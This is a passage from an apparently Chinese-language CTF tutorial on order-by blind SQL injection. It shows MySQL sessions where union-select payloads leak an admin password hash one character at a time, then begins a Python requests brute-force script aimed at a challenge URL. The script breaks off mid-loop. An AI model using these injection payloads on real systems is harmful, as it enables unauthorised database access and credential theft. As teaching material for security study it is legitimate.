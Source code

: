 该方法只适用于表里就一行数据的时候

如果注入的时候没有报错，我们又不知道列名，就只能用 order by 盲注了。当然，在 **过滤了括号** 的时候，order by 盲注也是个很好的办法。

order by 的主要作用就是让查询出来的数据根据第n列进行排序（默认升序），我们可以使用order by排序比较字符的 ascii 码大小，从第⼀位开始比较，第⼀位相同时比较下⼀位。

+ 测试

```sql
mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | 5                                |
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
|  1 | 2        | 6                                |
+----+----------+----------------------------------+
2 rows in set (0.01 sec)

mysql> select * from admin where username='' or 1 union select 1,2,'51' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | 51                               |
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from admin where username='' or 1 union select 1,2,'52' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
|  1 | 2        | 52                               |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)
```

+ 脚本

```python
# -*- coding:utf-8 -*-
import requests

# 定义一个flag取值的一个“范围”
dic = "1234567890qwertyuioplkjhgfdsazxcvbnmQWERTYUIOPLKJHGFDSAZXCVBNM_!@#$%^&*"
# 之所以不定义为空，而是“^”，是为了从头开始匹配
flag = "^"
# 目标url，先传“|1”，获取其数据的排列内容，作为一个对比的基准
url1 = "https://chall.tasteless.eu/level1/index.php?dir=|1"
url2 = "http://localhost/sqli/Less-1/?id=1"
content1 = requests.get(url1).content
# 这个flag的长度被定义为了50个字符长度
for i in range(50):
    # 从定义的dic中挨个取1字符，拼凑payload
    for letter in dic:
        payload = flag + letter
        # 该url最后的“}2b1”-->"}+1"
```